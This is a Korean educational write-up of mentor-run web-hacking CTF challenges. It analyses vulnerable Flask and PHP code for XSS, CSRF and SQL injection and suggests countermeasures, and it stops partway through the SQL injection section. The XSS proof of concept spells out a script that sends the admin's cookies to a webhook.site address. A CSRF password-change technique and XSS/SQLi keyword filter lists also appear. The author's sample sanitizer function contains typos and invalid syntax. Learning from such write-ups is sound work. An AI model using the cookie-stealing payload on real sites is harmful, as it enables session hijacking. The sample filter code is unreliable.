




# 개요
이번 Write up은 화이트햇스쿨 1기 오프라인 6주차에 진행이 되었던 유재욱 멘토님의 miniCTF문제에 대해 작성했습니다. 해당 공격은 멘토님께서 열어주신 CTF서버에서 진행이되었습니다. 작성한 CTF문제로 웹해킹에서 가장 잘 알려져있고 자주 사용이 되는 공격 기법인 XSS(Cross Site Script), CSRF(Cross Site Request Forgery), SQLInjection에 대해 작성했씁니다.(miniCTF 소스[https://github.com/JaewookYou/web-ctf-edu-challs](https://github.com/JaewookYou/web-ctf-edu-challs))

## 목차
[**1. XSS문제**](#xsscross-site-script)<br/>
    [a. **소스코드 분석**](#소스코드-분석xss)<br>
    [b. **개념 증명**](#개념증명xss)<br>
    [c. **대응 방안**](#대응방안xss)<br>

[**2. CSRF문제**](#csrfcross-site-request-forgery)<br>
    [a. **소스코드 분석**](#소스코드-분석csrf)<br>
    [b. **개념 증명**](#개념증명csrf)<br>
    [c. **대응 방안**](#대응방안csrf)<br>

[**2. SQLInjection문제**](#sqlinjection)<br>
    [a. **소스코드 분석**](#소스코드-분석sqlinjection)<br>
    [b. **개념 증명**](#개념증명sqlinjection)<br>
    [c. **대응 방안**](#대응방안sqlinjection)<br>

    
> **해당 공격 기법들을 허가되지 않은 실제 운영 서버에서 시도하는 것은 정보통신망법에 어긋나는 행위입니다.**
{: .prompt-warning }

### XSS(Cross Site Script)
Cross Site Script는 크게 Stored XSS와 Reflected XSS로 나뉜다. Stored XSS는 클라이언트와 서버 그리고 공격자가 있을 때 공격자가 게시글 작성과 같은 기능을 이용해 서버에 악성스크립트를 삽입시켜 저장해둔뒤, 이후 클라이언트가 그 게시글을 열어 서버에서 데이터를 받을 경우 서버에 있던 공격자가 삽입시킨 악성스크립트가 클라이언트의 컴퓨터에서 실행이돼 클라이언트에 저장이 되어있던 쿠키와 같은 정보들이 공격자한테 보내지는 공격이다. 

Reflected XSS는 Stored에서는 공격자가 서버에 악성스크립트를 삽입해 저장을 시켰다면 이번에는 공격자가 파라미터에 악성스크립트를 삽입한뒤 클라이언트에게 이메일이나, 문자등을 통해 전송시켜 접속하게 만든뒤, 클라이언트의 정보가 공격자에게 보내지는 공격이다.


- Stored XSS(Client 로그인이후)

1. 공격자가 서버에 악성스크립트가 호함된 게시글을 작성해 저장함
2. 클라이언트가 공격자가 작성한 게시글을 접속해 해당 데이터를 요청함
3. 서버에 저장되어있던 악성스크립트가 담긴 게시글을 응답

<hr>
<br>

- Reflected XSS(Client 로그인이후)

1. 공격자가 해당 서버에 관한 url 파라미터에 악성 스크립트를 넣어 클라이언트에게 전송함.
2. 공격자에게 전송받은 url을 통해 서버에 요청을 보냄
3. 해당 요청을 보냄과 동시에 공격자에게 정보가 넘어감
<hr>

#### 소스코드 분석(XSS)
우선 해당 문제사이트에 들어가 어떠한 기능들이 있는지 살펴보겠다. 


해당 사이트에서 guest, guest로 로그인해 들어간후의 화면이다. 밑에 보면 `글쓰기 기능`과 `관리자에게 글읽기 요청`에 대한 기능이 있다. 이것을 보고 전체적인 흐름을보자면 글쓰기 기능을 통해 Stored XSS를 시도한뒤, 관리자에게 글읽기 요청을 통해 관리자 권한으로 해당 게시글을 읽게 할 수 있을 것이라는 예측을 할 수 있다.

다음으로 해당 ctf github에 들어가 소스코드를 분석해보겠다.

<br>

```python
@app.route("/login", methods=["GET","POST"])
def login():
    if flask.request.method == "GET":  

        # 세션이 제대로 생성이 됐을 경우 board로 리다이렉트 
        if sessionCheck(loginCheck=True):   
            return flask.redirect(flask.url_for("board"))
        
        # 세션이 제대로 생성이 안되어있으면 login.html 렌더링
        return flask.render_template("login.html", msg="false") 
    else:
        if sessionCheck():
            return flask.redirect(flask.url_for("board"))
        
        # login 폼에서 입력받은 userid와 userpw를 변수에 저장
        userid = flask.request.form["userid"]
        userpw = flask.request.form["userpw"]
        

        if userid in ids:
            if ids[userid] == userpw:
                flask.session["userid"] = userid
                flask.session["isLogin"] = True
                    
                resp = flask.make_response(flask.redirect(flask.url_for("board")))
                resp.set_cookie('userid', flask.session["userid"])
                if userid == "admin":
                    resp.set_cookie('flag', os.getenv("xss1_flag"))
                return resp
            else:
                return flask.render_template("login.html", msg="login fail")
        else:
            return flask.render_template("login.html", msg="login fail")
```
우선 처음 login을 하는 부분을 살펴보면 GET요청을 받을 때 session이 제대로 생성이 되어있다면 board url로 리다리렉트해주고 아니라면 로그인을 할 수 있게 로그인폼을 렌더링해준다. GET메소드가 아닌 다른 메소드의 요청이 들어오면 GET과 마찬가지로 session을 체크한 뒤 제대로 생성이 되어있으면 board url로 리다이렉트해주고 아니라면  login 폼에서 입력받은 userid와 userpw를 userid, userpw라는 변수에 저장시킨다. 이후 userid가 ids라는 현재 생성이 되어있는 id중 일치하는 것이 있는 지 체크한뒤 존재한다면 해당 계정에 대한 세션을 생성시켜준다. 하지만 만약에 입력한 userid가 admin일 경우 flag라는 이름의 쿠키에 xx1_flag 값을 넣는다는 것을 확인할 수 있다. 여기서 알 수 있는 것은 현재 문제에 대한 목표는 admin계정의 쿠키값을 탈취하는 것이다.

<br>

```python
@app.route("/write", methods=["GET", "POST"])
def write():
    if not sessionCheck(loginCheck=True):   # 로그인이 되어있는지 확인 안돼있으면 login url로 redirect 
        return flask.redirect(flask.url_for("login"))

    if flask.request.method == "GET":   # write.html 렌더링
        return flask.render_template("write.html", loginid=flask.session["userid"])

    elif flask.request.method == "POST":    # 해당 폼에서 요청받은 subject, author, content를 저장
        subject = flask.request.form["subject"]
        author = flask.request.form["author"]
        content = flask.request.form["content"]
        
        req = {
            'seq':len(articles),
            'subject':subject,
            'author':flask.session['userid'],
            'content':content,
        }

        articles.append(req)    # 게시글 추가

        return flask.redirect(flask.url_for("board"))
```
이 메소드는 /write 에 접근을 했을 때 글쓰기 요청에 대한 동작을 수행하는 함수이다. 처음 로그인이 되어있는지 체크를 한뒤 `GET`요청이 들어오면 write.html을 렌더링해주고 `POST`요청이 들어오면 해당 `subject, author, content`폼에 작성이된 값들을 저장해 게시글이 작성된다. 우선 여기서 모든 폼에 XSS 공격에 대한 필터링이 되어있지 않아 XSS공격을 간단하게 수행 할 수 있을 것이다.

<br>

```python
@app.route("/board/<seq>")
def viewboard(seq):
    if not sessionCheck(loginCheck=True):
        return flask.redirect(flask.url_for("login"))

    article = articles[int(seq)]

    # 만약 session에 있는 userid가 해당 게시글의 작성자와 동일하거나, admin일 경우 view.html렌더링 즉 읽기 가능
    if article["author"] == flask.session["userid"] or flask.session["userid"] == "admin":
        return flask.render_template("view.html", articles=article)
    else:
        return "<script>alert('This is not your article');location.replace('/');</script>"
```
해다 코드는 게시글에 접속을 할 때 동작이 되는 함수이다. 처음 session을 체크하고 해당 사용자가 글을 쓴 author와 동일하거나 또는 사용자가 admin일 경우 글을 읽게 해준다.


<br>

```python
@app.route("/report", methods=["GET", "POST"])
def report():
    if flask.request.method == "GET":
        return '''
        <form method="POST" action="/report">
            <input type="text" name="url" placeholder="input url..." style="width:25%; height: 7%;">
            <input type="submit" value="submit">
        </form>
        '''
    elif flask.request.method == "POST":
        url = flask.request.form['url']

        # http://arang_client:9000/run 경로로 post요청을 chal=xss&url=입력url과 함께 보냄
        requests.post(f"http://arang_client:9000/run", data=f"chal=xss1&url={url}", headers={"Content-Type":"application/x-www-form-urlencoded", "Content-Length":"1"})
        return "<script>history.go(-1);</script>"
```
이 메소드는 관리자에게 글읽기 요청에 대한 함수이다. `GET`요청이 들어올경우 return에 적혀있는대로 POST요청을 보낼 수 있는 폼을 렌더링해준다. `POST`요청이 들어올 경우 해당 폼에 url이라는 값을 가져와 url에 저장시킨뒤 `http://arang_client:9000/run`에 `chal`값과, `url`값을 body에 넣어 요청을 보낸다.

<br>

```python
@app.route("/run", methods=["POST"])
def run():
	url = flask.request.form['url']     # 받은 POST요청에서 url값을 저장
	if 'chal' in flask.request.form:    # 받은 POST요청에 chal의 값이 존재하면 실행
		chal = flask.request.form['chal']   # 받은 chal의 값을 저장
		print(f"[+] bot run arang_client:{chal} - {url}")
		doCrawl_server1(chal, url)      # doCrawl_server1이라는 함수에 chal, url의 인자값을 보내며 실행한다.
	else:
		print(url)
		doCrawl_server2(url)        # 받은 POST요청에 chal값이 없다면 doCrawl_server2를 url과 함께 실행

	return "<script>history.go(-1);</script>"
```
해당 코드는 관리자에게 글읽기에서 요청을 보낼 시 실행이 되는 bot.py의 소스코드이다. 위에서 `http://arang_client:9000/run`으로 POST요청을 보내면 이 함수에서 요청을 받는다. 위 POST요청에서 chal값와 url을 제대로 보내므로 if문이 만족해 `doCrawl_server1`함수가 chal값과 url값인자를 가지고 실행이된다.  

<br>

```python
def doCrawl_server1(chal, url):
	crawler = Crawler()     # selenium 설정 클래스
	driver = crawler.driver
	try:

        # arang_client주소에서 admin계정으로 로그인
		crawler.req(f'http://arang_client:{server1_challs[chal]}/login')

		driver.find_element(By.ID,"userid").send_keys(ADMIN_ID)
		driver.find_element(By.ID,"userpw").send_keys(ADMIN_PASS)
		driver.find_element(By.ID,"submit-login").click()
		
		time.sleep(1)

		if crawler.req(url):
			time.sleep(2)
		
		driver.quit()
	except:
		driver.quit()
		print(f"[x] error...")
		print(traceback.format_exc())
```
위 코드는 bot.py의 doCrawl_server1함수이다. 해당함수에서 Crawler()클래스는 selenium을 설정하는 클래스이다. selenium은 간단하게 말해서 가상의 브라우져라고 보면되는데. 이 기능 통해 개발하는 과정에서 사이트 테스트를 하는 용도로 쓰인다. 돌아와서 이 기능을 이용해 `http://arang_client:{server1_challs[chal]}/login`에 접속을 한 뒤 userid에 ADMIN_ID를 불러와 입력하고, userpw에 ADMIN_PASS를 불러와 입력한뒤 submit-login버튼을 클릭 해 admin으로 로그인을 시도하는 것을 확인할 수 있다. 따라서 이 기능을 이용해서 Sotrd XSS공격을 한 내 게시글을 접속 시킬경우 admin계정의 cookie를 탈취할 수 있을 것이다.

<br>

#### 개념증명(XSS)
공격을 하는 순서는 다음과 같다.

1. 글쓰기기능을 통해 Stored XSS 공격으로 클라이언트가 해당 게시글에 접속 할 경우 cookie 값을 파라미터와 함께 공격자 서버에 요청을 보내는 스크립트를 작성한다.
2. 관리자에게 글읽기 요청으로 관리자의 권한으로 내가 작성한 게시글을 읽도록 한다.

처음 글쓰기로 위에서 설명했던 것과같이 나의 서버로 cookie값과 함께 요청을 보내는 스크립트를 작성하겠다. 참고로 write함수에서 봤던 것과 같이 따로 글쓰는 내용에 대한 필터링은 되어있지 않아 쉽게 공격을 할 수 있을 것이다.


내용에 `<script>new Image().src = "https://webhook.site/39cdd736-37d4-4f47-8503-cfe16200b35d?cookie=" + document.cookie;</script>` 이런 스크립트를 작성해주었다. 이 코드를 해석해보자면 new Image()로 새로운 이미지객체를 생성하고 그 이미지로 src를 통해`"https://webhook.site/39cdd736-37d4-4f47-8503-cfe16200b35d?cookie=" + document.cookie`를 지정해주었다. 여기서 webhook.site 는 요청을 받으면 그 패킷을 보여주는 도구이다. 이 webhook을 사용하면 실제 서버를 구축하지 않고도 요청받은 패킷을 볼 수 있어 편리하므로 이 사이트로 공격자 서버를 대신했다. 큰따옴표(")뒤에 나오는 `document.cookie`는 브라우저단에서 실행이 되는 자바스크립트의 내장되어있는 명령어로 해당 명령어를 사용하면 현재 사용자의 cookie값을 출력해준다. 따라서 저 webhook사이트에 요청을 보낼때 cookie라는 파라미터안에 해당 사용자의 cookie값을 가져와 보낸다는 것이다. 

결과적으로 이 게시글을 작성한 뒤 클라이언트가 이 게시글을 눌러 접속했을 때 자동으로 공격자서버에 cookie값이 전송이 되는것이다.

<br>


예시로 게시글을 작성한 뒤 내가 게시글을 직접 접속해본 결과 실제 webhook사이트에 해당 요청이 들어온것을 확인할 수 있고, 나의 cookie값인 `userid=guest` 도 전송을 받은 것도 확인했다.

다음 단계로 관리자에게 글읽기 요청을 이용해 나의 게시글을 읽게하면 된다.

<br>


관리자에게 글 읽기 요청 페이지로 이동해 나의 게시글을 읽게 시켰다. `http://2023whs.arang.kr:9001/board/2802`.

이후 시간을 좀 기다려봐도 webhook사이트에 어떠한 요청도 찍히지 않았다. 그이유를 살펴보자면 처음 코드리뷰를 할 때 글읽기 요청으로 url을 보내면 


<br>

```python
requests.post(f"http://arang_client:9000/run", data=f"chal=xss1&url={url}", headers={"Content-Type":"application/x-www-form-urlencoded", "Content-Length":"1"})
```

위 코드와 같이 `http://arang_client:9000/run` 이라는 주소로 chal값과 url값을 보낸다는 것을 봤었다. 이후 

<br>

```python
crawler = Crawler()   
	driver = crawler.driver
	try:
		crawler.req(f'http://arang_client:{server1_challs[chal]}/login')

		driver.find_element(By.ID,"userid").send_keys(ADMIN_ID)
		driver.find_element(By.ID,"userpw").send_keys(ADMIN_PASS)
		driver.find_element(By.ID,"submit-login").click()
		
		time.sleep(1)

		if crawler.req(url):
			time.sleep(2)
		
		driver.quit()
```
이 코드를 통해 해당 도메인에서 login을 시도하고 url을 접속하는 것을 확인했다. 하지만 내가 게시글을 작성한 주소는 `http://2023whs.arang.kr:9001/` 로 위에 로그인을 한 주소와 다른 도메인이다. 여기서 외부의 클라이언트와 내부에서 bot이 접속하는 클라이언트와의 주소가 다르다는 것을 확인 할 수 있다. 따라서 위 bot은 `arnag_client`라는 주소를 통해 login을 했으니 내가 글을 쓴 `2023whs.arang.kr`에 글을 요청보내면 로그인이 안됐으므로 게시글 접근이 안됐을 것이다. 따라서 요청을 arang_client주소를 통해 내 게시글에 접속을 시키면 될것이다.

접속주소는 `http://arang_client:{server1_challs[chal]}`이것인데 server1_challs[chal]은 요청으로 보내줬던 chal을 통해 해당 값에 맞는 포트를 가져와 넣어준다. 현재 이 페이지에서 보낸 chal값은 xss1이고 이에 해당하는 포트번호는 9001번이다.

<br>


`http://arang_client:9001/board/2802`


<br>


<br>

#### 대응방안(XSS)
대응방안으로는 첫번째로 필터링을 하는 방법이 있다.

필터링으로는 악용이 될 가능성이 있는 문자열과 특수문자들을 필터링해주면 된다. 예를 들어 `script, onerror, data, base, javascript, (, ), ', <, >, %, \u` 등이 있다. 여기서 특수문자들은 HTML Entity로 변환해 문자로 인식되게 하면 가용성측면을 챙길 수 있을 것이다. 필터링하는 코드를 예시로 만들어보았다.

```python
def waf(content):
    filter_str= ["javascript", "script", "onerror", "data", "base64", "docuemnt", "cookie"]

    filter_html_entity = {
        "&": "&amp;",
        "<": "&lt;",
        ">": "&gt;",
        '"': "&quot;",
        "'": "&#39;",
        "(": "&#40;",
        ")": "&#41;",
        ".": "&#46;",
    }

    result = ""
    for i in content:
        if i in filter_html_entity:
            result += rilter_entity[i]
        else:
            result += i

    for i in filter_str:
        if i in result:
            return True

        else False
```


두번째로는 WAF사용이 있다.

WAF는 Web Application Firewall로 일반 방화벽과는 달리 웹 어플리케이션단에서 위험한 문자열들을 기록하고 차단하는 역할을 한다. WAF로는 AWS을 사용하고 있다면 AWS waf를 사용할 수 있고 또는 실제 장비를 구입해 구축할 수 있다.


### CSRF(Cross Site Request Forgery)
CSRF는 XSS와 같은 ClientSide 취약점으로 client와 관련된 공격이다. 처음 CSRF를 봤을 때 Reflected XSS공격과의 차이가 헷갈렸다. CSRF와 Reflected XSS의 차이를 간단하게 말하자면, Reflected XSS는 공격자가 Client에게 url을 보내 클릭을 유도시킨 뒤 실제 클릭을 하게되면 url에 있던 악성 스크립트가 Client에의해 서버에 보내게돼 자동으로 공격자에게 정보가 넘어가는 것이고 CSRF는 공격자가 Client에게 사이트의 중요한 url에 특정 파라미터값과 함께 url을 보내고 Client가 그 url을 클릭할 경우 Client의 권한으로 그 url이 접속이 되고 파라미터도 공격자가 원하는 것을 Client권한으로 실행을 하게 된다. 예를 들어서 은행의 송금같은 경우 파라미터에 송금받는사람 `who`와, 얼마를 보낼 것이지에 대한 값 `value`을 받고 있다. 이때 이 페이지는 login을 한 계정에서 who에 넣은 계정을 value만큼의 돈을 송금하는것이다. 공격자는 who에 자신의 계정 value에 1억이라는 값을 넣을 수 있다. `https//test.co.kr?who=hacker&value=100000000`.

이렇게 되면 `https//test.co.kr?who=hacker&value=100000000` 이 url을 받아 클릭하게 된 Client는 자신의 계좌에서 hacker라는 계정으로 1억원의 돈이 송금될 수 있다.

따라서 XSS는 url을 통해 Client가 어떠한 스크립트를 실행시키는 것이고, CSRF는 어떠한 스크립트 or url 유도를 통해 Client의 권한으로 어떠한 동작을 실행시키는 것이다.

#### 소스코드 분석(CSRF)
우선 XSS와 마찬가지로 해당 사이트로 이동해 어떤 기능들이 있는지 살펴보겠다.


<br>

이번에는 flag가 admin이 작성한 게시글인 flag is here에 있다는 것을 추측할 수 있고, XSS때는 없던 비밀번호 변경이 생긴것을 알 수 있는데 이것을 통해 비밀번호 변경을 이용해야하는 문제라는 것도 예측할 수 있다. 이외는 XSS때와 같은 기능들이 있다.

해당 문제의 소스코드를 본 결과 xss공격을 체크하는 부분과, 패스워드를 변경하는부분, 글을 쓰는 부분외에는 변경된게 없었다. 따라서 이 부분만 분석을 해보겠다.

```python
def xsscheck(content):
    content = content.lower()
    vulns = ["javascript", "frame", "object", "on", "data", "embed", "&#", "base","\\u","alert","fetch","XMLHttpRequest","eval","constructor"]
    vulns += list("'\"")    # '와 "를 추가로 체크
    for char in vulns:
        if char in content:
            return True

    return False
```
위 함수는 content에 xss공격에 관련된 문자열이 존재하는지 체크하는함수인데. 만약 vulns안에 속하는 문자열이 존재 할 경우 true를 return하고 없을 경우 false를 출력하는 함수이다. 체크하는 문자열로는 `javascript", "frame", "object", "on", "data", "embed", "&#", "base","\\u","alert","fetch","XMLHttpRequest","eval","constructor, ', \" "` 이 있다.

<br>

```python
@app.route("/changepw", methods=["GET"])
def changepw():
    # userid 또는 userpw 인자값을 받지 않았다면 Changepw.html 렌더링
    if "userid" not in flask.request.args or "userpw" not in flask.request.args:
        return flask.render_template("changepw.html", msg="false")

    else:
        # userid와 userpw를 userid, userpw변수에 각각 저장
        userid = flask.request.args["userid"]        
        userpw = flask.request.args["userpw"]

        # 만약 userid가 amdin이고 경우 접속한 사용자의 host이름이 arang_client이 아니라면 
        # changepw.html을 다시 렌더링
        if userid == "admin":
            if flask.request.remote_addr != socket.gethostbyname("arang_client"):
                return flask.render_template("changepw.html", msg="admin password is only changed at internal network")
        
        # 입력한 userid가 ids라는 테이블에 존재하면 해당 userid부분의 pw를 입력받은 userpw로 변경 한후 login 으로 리다이렉트
        if userid in ids:
            ids[userid] = userpw
            return flask.redirect(flask.url_for("login"))

        # 입력한 userid가 ids라는 테이블에 존재하지 않으면 다시 change.html렌더링
        else:
            return flask.render_template("changepw.html", msg="user doesn't exist")
```
해당 코드는 비밀번호 변경페이지에 접속할경우 위 코드를 실행한다. 처음 파라미터로 `userid`또는 `userpw`를 받지 않았으면 changepw.html을 다시 렌더링해주고 둘 다 모두 받았고, 만약 userid가 admin이고 접속한 사용자의 host가 arang_client가 아니라면 changepw.html을 다시 렌더링해준다. 이것이 해당이 안될 경우 userid가 ids테이블에 존재하는 uesrid인지 확인한 후 해당하는 아이디에 패스워드를 userpw로 변경해주고 login url로 리다이렉트해준다.

<br>

```python
@app.route("/write", methods=["GET", "POST"])
def write():

    # 세션체크
    if not sessionCheck(loginCheck=True):
        return flask.redirect(flask.url_for("login"))

    # GET 요청을 받았을 때 write.html을 렌더링
    if flask.request.method == "GET":
        return flask.render_template("write.html", loginid=flask.session["userid"])

    # POST요청을 받았을 때 폼에 입력된 subject, authorm content들을 각각 변수에 저장
    elif flask.request.method == "POST":
        subject = flask.request.form["subject"]
        author = flask.request.form["author"]
        content = flask.request.form["content"]

        # 입력된 content 위에서 다뤘던 xsscheck 함수를 통해 xss에대한 검사를 함
        if not xsscheck(content):

            # markdown의 문법중 이미지를 출력하는  이러한 문법을 만났을 때
            #  이런식으로 HTML코드로 변환을 시켜 이미지를 출력해준다.
            # substitute markdown image refference to html image tag
            content = re.sub(r"!\[(.*?)\]\((.*?)\)",r'',content.replace('"',''))

            req = {
                'seq':len(articles),
                'subject':subject,
                'author':flask.session['userid'],
                'content':content,
            }

            articles.append(req)

            return flask.redirect(flask.url_for("board"))

        # xsscheck에서 필터링하는 문자를 사용할 경우 해당 스크립트가 출력
        else:
            return '<script>alert("no hack");history.go(-1);</script>'
```
이 함수는 글쓰기 페이지를 접속했을 때 실행이되는 함수이다. XSS때와 마찬가지로 세션을 체크한뒤 `GET`요청을 받으면 write.html을 렌더링해주고 `POST`요청을 받으면 form에서 받은 subject, author, content들을 각 변수에 저장하고 xsscheck를 한뒤 content값을 정규표현식으로 문자를 찾아 만약 markdown의 이미지를 출력하는 문법으로 ``를 만났을 때 `` HTML코드로 변환시켜 이미지를 출력할 수 있게 해준다. 따라서 이 부분을 이용해 내가 원하는 url을 넣으면 script 와 같은 태그를 넣어 XSS공격을 하지 않고도 CSRF공격을 진행 시킬 수 있을 것이다.

<br>


#### 개념증명(CSRF)
공격 순서는 다음과 같다.
1. 게시글 작성을 통해 비밀번호 변경 페이지접속후 admin 계정의 패스워드를 임의의 문자인 test로 바꾸는 스크립트를 작성한다.
2. 관리자 글 읽기 요청을 통해 해당글을 읽게 한다.
3. 패스워드가 변경된 admin계정으로 flag가 적혀있는 게시글을 읽는다.

처음 공격은 위에서 분석했던 것과 같이 마크다운 이미지 출력 문법을 사용할 것이다.


``이 코드를 작성하면 대괄호 안에 있는 image문자열과 소괄호 안에있던 CSRF공격을 위한 url이 HTML 태그로 ` id="image">`이렇게 변경이 돼 src안 url이 게시글을 열어본 Client의 권한으로 실행이 될 것이다.

이것을 이 게시글을 XSS공격때와 마찬가지로 arnag_client 호스트로 게시글 접속을 요청하면 된다.

<br>


`http://arang_client:9004/board/487`

<br>


<br>

#### 대응방안(CSRF)
CSRF의 대응방안으로는 form요청을 보낼때는 보낸 client의 비밀번호를 다시 입력하게 한다던가, 또 다른 인증요청을 통해 공격을 방지하는방법과, 애초에 이러한 패스워드 변경과 같은 민감한 내용을 다루는 페이지에서는 GET요청으로 파라미터에 값을 보내는것보다 POST요청으로 값을 보내게 하는것이 가장 좋다. 그리고 내가 봤던 사이트들 중 가장 많이 사용하는 방식으로 CSRF 토큰을 사용하는 것이다. CSRF토큰은 서버측 애플리케이션에서 생성이 된 후 Client와 공유되는 인증 값이다. Client가 서버에 어떠한 요청을 보낼 때 CSRF토큰이 정상적이여야지 작업을 수행하고 만약 그렇지 않으면 요청을 거부하는 방법이다. mermiad로 설명하자면 다음과 같다.


이와 같이 Client가 처음 GET요청을 보낼 때 CSRF token을 HTTP의 hidden태그로 숨겨서 클라이언트에게 보내고 이후 POST요청으로 데이터를 보낼 때 hidden 태그에 숨겨져있던 CSRF token과 현재 session에 있는 CSRF token과 비교해 일치할 경우 그대로 동작이 수행이 되고, 일치하지 않을 경우 동작이 수행하지 않는 대응방법이 있다. 

<br>


예시로 위 사진과 같다. 위 사진은 DVWA(Damn Vulnerable Web Application)취약한 웹 어플리케이션과 프록시인 Burp suite를 통해 CSRF토큰을 확인할 수 있다. 현재는 이렇게 token을 확인 할 수 있지만 실제 사이트에서는 볼 수 없다.

<br>

### SQLInjection
SQLInjection은 서버 사이드 관련 취약점이다. 위에서 작성했던 XSS와 CSRF같은 경우는 Client를 공격하기 위해서 하는 공격이라면 SQLInjetion은 서버에서 사용중인 DB의 정보들을 탈취하기위해 사용이 된다. 공격과정은 다음과같다.


서버에 DB에 데이터를 가져와 출력을 해주는 기능에서 SQLInjection에 대한 방어 조치가 되어있지 않은 경우
1. 해커가 SQLInjection을 통해 원래의 목적과 다른 데이터를 출력하는 쿼리를 날린다.
2. 서버에서 해당 쿼리를 통해 데이터베이스에서 해당 데이터를 요청
3. 해당 데이터를 서버에 보내준다.
4. 서버에서 해당 데이터를 해커에게 보내준다.


SQLInjection은 크게 SQLInjection과 Blind SQLInjection으로 나뉜다. 그냥 SQLInjection같은 경우에는 쿼리를 날렸을 때 그 결과가 눈에 보이는 상황에 대해 말한다. 예를들어 로그인 같은 경우 어떠한 값을 넣었을 때 그 결과가 로그인이 되는것과 안되는 것으로 나뉘는데 이것을 이용해 참거짓을 구분할 수 있게돼 문제없이 SQLInjection을 진행하면 된다. 하지만 Blind SQLInjection과 같은 경우에는 쿼리를 날린 결과를 확인할 수 없는 경우를 말한다. 이 경우에는 `sleep()`과 같은 함수를 통해 참거짓을 구분해 결과를 확인할 수 있게 해야한다.

SQLInjection 종류
- SQLInjection
- blind SQLInection
- time based SQLInjection
- error based SQLInjection
- mass SLQInjection...

<br>

#### 소스코드 분석(SQLInjection)
```php
<?php
include('dbconn.php');

function waf($input){
    $t = strtolower($input);

    # 해당 문자열들을 사용할 시 no hack이라는 문자열을 띄운다.
    if(preg_match("/or|union|admin|\||\&|\d|-|\\\\|\x09|\x0b|\x0c|\x0d|\x20|\//",$t)){
        die('no hack..');
    } else {
        return $input;
    }
}

# 파라미터로 userid와 userpw값을 입력받는다.
if(isset($_GET["userid"]) && isset($_GET["userpw"])){
    $mysqli = new mysqli($host, $sqli2_username, $sqli2_password, $database);

    if ($mysqli->connect_error) {
        die("connection fail:" . $mysqli->connect_error);
    }

    # 파라미터로 입력 받은 userid와 userpw를 waf함수를 통해
    # SQLInjection 공격을 1차적으로 막는다.
    $uid = waf($_GET["userid"]);
    $upw = waf($_GET["userpw"]);

    # 입력받은 userid와 userpw를 SQL 쿼리문에 넣어 실행한다.
    $query = "SELECT userid FROM sqli2_table where userid='$uid' and userpw='$upw'";
    $result = $mysqli->query($query);
    $userid = "";
    
    # 쿼리문 실행에 대한 결과값의 열이 0개 이상일경우
    # row변수에 해당 값을 넣는다. 특히 결과값이 여러개일경우 최상단을 넣는다.
    if ($result->num_rows > 0) {
        while ($row = $result->fetch_assoc()) {
            $userid = $row['userid'];
            break;
        }
    }
    $mysqli->close();


    # 만약 쿼리문에 실행돼 나온결과의 userid가 admin일 경우
    # /sqli2_flag.txt 파일의 내용을 출력한다.
    if($userid == "admin"){
        echo file_get_contents('/sqli2_flag.txt');

    # admin이 아닐 경우 userid만 출력한다.
    } else {
        echo $userid;
    }
}
?>
<br><br>
<?php highlight_file(__FILE__); ?>
```
위 코드는 SQLinejction 2번째 문제에 대한 코드이다. WAF함수에서는 `/or|union|admin|\||\&|\d|-|\\\\|\x09|\x0b|\x0c|\x0d|\x20|\//` 이 문자열들을 필터링한다. 여기서 `\x09, \x0b, \x0c, \x0d`는 각각 HT, VT, FF, CR로 수평 탭(Horizontal Tab), 수직 탭(Vertical Tab), 페이지 넘김(Form Feed), 커서를처음으로 이동(Carriage Return)이다. 

이 페이지에 접속을 할 때 파라미터로 userid와 userpw값을 받는데 이것을 WAF함수에서 소문자로 변경후 위에서 나열한 문자들이 있을 경우 no hack... 이 출력된다. 만약 WAF에서 문자열이 해당 문자열이 검출 되지 않은 경우 userid, userpw값을 `SELECT userid FROM sqli2_table where userid='$uid' and userpw='$upw'` 쿼리문에 넣는다. 이후 이 쿼리를 실행한 뒤 결과를 result에 넣는다. 

만약 result에 넣어진 결과가 1개라도 있을 때 userid에 결과값에 userid를 넣는다. 만약 userid가 admin이라면 `/sqli2_flag.txt`안의 내용을 출력하고 아니라면 userid를 출력한다. 

